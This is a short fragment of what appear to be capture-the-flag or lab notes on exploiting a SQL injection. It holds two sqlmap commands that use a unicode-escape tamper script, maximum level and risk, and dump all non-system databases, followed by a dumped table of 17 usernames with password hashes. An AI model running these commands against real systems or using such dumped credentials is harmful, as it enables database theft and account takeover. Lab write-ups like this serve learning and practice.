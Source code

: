 
```
sqlmap -r post_me.txt --tamper=charunicodeescape --delay 3 --level 5 --risk 3 --dbms=mssql -technique=U --batch --dump-all --exclude-sysdbs -v 3
```


And and and finally this command worked
```
sqlmap -r colleagues.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dump-all --exclude-sysdbs
```

![[Pasted image 20240920032509.png]]

```
id | password                                                                                         | username |
+----+--------------------------------------------------------------------------------------------------+----------+
| 1  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | sbauer   |
| 2  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | okent    |
| 3  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ckane    |
| 4  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | kpage    |
| 5  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | shayna   |
| 6  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | james    |
| 7  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | cyork    |
| 8  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | rmartin  |
| 9  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zac      |
| 10 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | jorden   |
| 11 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | alyx     |
| 12 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ilee     |
| 13 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | nbourne  |
| 14 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zpowers  |
| 15 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | aldom    |
| 16 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | minatotw |
| 17 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | egre55 
```
